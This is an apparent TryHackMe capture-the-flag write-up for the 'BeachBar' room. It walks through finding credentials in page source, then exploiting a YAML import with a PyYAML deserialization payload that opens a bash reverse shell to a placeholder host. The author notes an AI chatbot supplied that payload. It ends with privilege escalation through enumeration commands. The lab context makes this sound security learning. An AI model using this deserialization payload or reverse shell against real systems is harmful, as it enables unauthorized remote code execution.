# THM BeachBar Writeup

WebEx, reverse shell + previlege escalation




Visit the web

a classic username and password shown.

My first step is finding other directories using gobuster, while inspecting the source code.
In the source code, i found something interesting pay attention to the comment


logged in using dj as the username and the pass


clicking on export gave me this .yml file


clicking import gave me this web

this indicates that i can gain root access with a script from this import.

but before that, we have to find out how the sytem works
i pasted the content of playlist.yml and this is the result


it seems the web converts .yml to python dictionary

i asked gpt to give me a reverse shell python script and this is what it gave me
```python
!!python/object/apply:os.system
args:
  - "bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"
```

started a listener


got in


used this command to find anything interesting
```bash!
find /home -type f \( -name "user.txt" -o -name "user.flag" -o -name "flag.txt" \) 2>/dev/null
```

found it 


now let's search for the root flag

going to root shows Permission denied so let's try getting in the root (this took me a while)

Local Enumeration
Several enumeration steps were checked:
```bash!
find / -perm -u=s -type f → ga ada spesial
id → bartender, no extra groups
ss -tulpn → ga ada spesial
getcap -r / → ga ada spesial
ps aux | grep -i python → revealed the key finding
```
find : 

got the pass right there now lets connect to the root

got to root


went to the root dir since we now have access, looked up files with ls, then got the flag



Lesson : 
- study more about privelege esacalation
- use command so as to not waste time 
ex : 
```bash!
find /DIRECTORY NAME -type f -name "user.txt" 2>/dev/null
find / -type f -name "*.txt" 2>/dev/null
find / -type f \( -name "flag.txt" -o -name "user.txt" -o -name "root.txt" \) 2>/dev/null
```
- find out how input process works before asking ai for a script
